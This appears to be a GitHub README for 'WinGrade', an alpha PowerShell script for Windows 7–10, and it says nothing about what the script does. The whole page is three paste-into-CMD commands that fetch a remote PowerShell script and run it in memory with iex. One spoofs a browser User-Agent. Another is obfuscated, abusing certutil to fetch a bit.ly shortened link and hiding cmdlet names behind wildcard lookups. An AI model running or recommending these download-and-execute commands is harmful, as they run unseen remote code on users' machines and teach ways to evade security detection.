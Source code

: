 # WinGrade

You can execute it in every Windows Operating System from Windows 7 - 10.

You don't have to Download the Program directly at github.


Just execute [CMD]:

powershell "iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Crypt2Shell/WinGrade/master/scripts/search.ps1')"

or

powershell "$down=New-Object Net.WebClient;$down.Headers['User-Agent']='Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US) AppleWebKit/525.19 (KHTML, like Gecko) Chrome/1.0.154.53 Safari/525.19';$down.DownloadString('https://raw.githubusercontent.com/Crypt2Shell/WinGrade/master/scripts/search.ps1')|iex"

or

powershell "iex(((C:\Windows\System32\certutil -ping https://bit.ly/2tZuas2|&(GV *ecu*t -ValueOn
).InvokeCommand.(((GV *ecu*t -ValueOn).InvokeCommand.PsObject.Methods|Where-Object{`$_.Name-ilike'Ge*ts'}).Name).Invoke(
'*ct-Ob*')-Skip 2|&(GV *ecu*t -ValueOn).InvokeCommand.(((GV *ecu*t -ValueOn).InvokeCommand.PsObject.Methods|Where-Object
{`$_.Name-ilike'Ge*ts'}).Name).Invoke('*ct-Ob*')-SkipLast 1)-Join'`r`n'))"


In the Windows Command Prompt.


This Script is still in the early Alpha release!!! And has some bugs
